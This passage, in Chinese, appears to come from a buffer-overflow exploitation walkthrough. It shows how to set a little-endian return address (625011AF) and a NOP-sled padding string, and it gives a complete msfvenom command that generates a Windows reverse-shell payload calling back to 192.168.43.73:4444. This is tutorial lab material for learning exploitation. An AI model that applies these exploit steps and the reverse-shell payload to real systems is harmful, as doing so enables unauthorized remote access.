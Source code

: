上述结果中的任何地址都可能被用作漏洞利用中的 retn 值。小端=反。还要添加填充以允许有效载荷打开包装。

注意地址 **625011AF**

用新地址更新我们的 retn 变量，并且必须向后写(因为系统是 little-endian=Reverse)。

```
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
```

![](img/b408ec72c92fef810151913f8af0434e.png)

现在使用 msfvenom 生成反向 shell 有效负载。

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.73 LPORT=4444 EXITFUNC=thread -b “\x00\x07\x2e\xa0” -f c
```

![](img/a688b06eab20e4f17cf41e0c1381f702.png)
